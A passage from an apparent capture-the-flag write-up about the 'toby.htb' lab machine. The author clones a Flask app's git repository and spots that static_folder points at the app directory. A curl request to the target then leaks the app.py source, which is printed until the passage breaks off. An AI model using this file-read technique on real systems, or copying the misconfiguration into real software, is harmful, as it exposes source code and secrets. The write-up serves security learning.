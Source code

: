     oxdf@hacky$ git clone http://backup.toby.htb/toby-admin/personal-webapp.git
    Cloning into 'personal-webapp'...
    Username for 'http://backup.toby.htb': toby-admin
    Password for 'http://toby-admin@backup.toby.htb': 
    remote: Enumerating objects: 12, done.
    remote: Counting objects: 100% (12/12), done.
    remote: Compressing objects: 100% (12/12), done.
    remote: Total 12 (delta 5), reused 0 (delta 0)
    Unpacking objects: 100% (12/12), 4.32 KiB | 442.00 KiB/s, done.



Unfortunately, despite the different update comments in the source,
there's only one previous commit:



    oxdf@hacky$ git log --oneline 
    4dda252 (HEAD -> master, origin/master, origin/HEAD) Fix static files
    7e56dd8 Add all files for webapp



The only change between the two is the `static_folder` setting in the
Flask app creation and the seeding of the pseudo-random number generator
with the current time (it shows nicely in the Gogs GUI as well):

[![](/img/image-20211008171445621.png)*Click
for full size
![image*](/img/image-20211008171445621.png)

There is a vulnerability in how this app is now handling statistics, by
setting the `/static` path to point to the current directory instead of
the default `static` directory. This can can lead to file read in that
directory, like a source code leak. For example, I can get `app.py`:



    www-data@wordpress:/var/www.md$ curl personal.toby.htb/static/app.py
    #!/usr/bin/python3     
                                                                        
    import json                                    
    import random
    import time      
    import string
    from subprocess import Popen, PIPE       
    import os
    import ipaddress    
    from flask import *
                                                                        
    app = Flask(__name__, static_folder="", static_url_path="/static")
                                                                        
    def validate_ip(ip):
            try:                                
                    if "/" in ip:
                            raise ValueError("Please no netmasks!")
                    _ = ipaddress.ip_address(ip)
            except Exception as e:
                    return False
            return True
